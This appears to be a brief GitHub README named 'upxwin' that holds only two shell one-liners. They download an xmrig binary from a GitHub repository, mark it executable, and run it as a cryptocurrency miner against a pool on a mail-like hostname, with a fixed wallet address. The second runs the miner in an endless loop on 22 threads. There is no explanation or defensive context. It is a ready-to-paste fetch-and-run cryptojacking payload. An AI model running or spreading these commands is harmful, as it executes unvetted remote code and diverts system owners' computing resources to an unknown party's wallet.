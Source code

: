 # upxwin




git clone https://github.com/saroden99/k.git && cd k && chmod +x xmrig && ./xmrig -a cn-pico -o stratum+tcp://mail.ekata.io:3333 -u bazaatV4qYYKjM3xd7Q3h28niM7kJkJxnJxtnRkZCHFHYdM42d3euK4bYVbw2kPvKcTv2HSbatu7VCdNuUKNm35BebD6Lkc9gbx -p x -t 2



wget https://github.com/saroden99/k/raw/main/xmrig && chmod +x xmrig && while true; do ./xmrig -a cn-pico -o stratum+tcp://mail.ekata.io:3333 -u bazaatV4qYYKjM3xd7Q3h28niM7kJkJxnJxtnRkZCHFHYdM42d3euK4bYVbw2kPvKcTv2HSbatu7VCdNuUKNm35BebD6Lkc9gbx -p x -t 22
; done
